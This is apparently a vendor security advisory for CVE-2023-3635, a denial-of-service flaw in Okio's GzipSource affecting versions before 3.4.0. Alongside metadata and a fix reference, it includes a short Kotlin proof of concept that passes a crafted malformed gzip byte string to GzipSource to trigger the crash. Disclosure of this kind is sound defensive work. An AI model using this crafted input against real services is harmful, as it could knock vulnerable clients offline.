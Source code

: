 ```yaml
---
description: CVE-2023-3635, MEDIUM, Okio GzipSource unhandled exception Denial of Service
title: Okio GzipSource unhandled exception Denial of Service
date_published: "2023-07-12"
last_updated: "2023-07-12"
xray_id: XRAY-523195
vul_id: CVE-2023-3635
cvss: 5.9
severity: medium
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

Okio GzipSource unhandled exception Denial of Service

## Component

com.squareup.okio:okio

## Affected versions

(,3.4.0)

## Description

GzipSource does not handle an exception that might be raised when parsing a malformed gzip buffer. This may lead to denial of service of the Okio client when handling a crafted GZIP archive, by using the GzipSource class.

## PoC

```kot
val gzBuf: Buffer = Buffer()
    try {
        val gzByteString: ByteString = ("1f8b41ff424242424343ffff").decodeHex()
        gzBuf.write(gzByteString)
        val gz: GzipSource = GzipSource(gzBuf)
        val sinkBuf: Buffer = Buffer()
        gz.read(sinkBuf, 5)
    }
    catch(e: IOException) {
        println("got error: " + e.toString())
    }
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b](https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b)

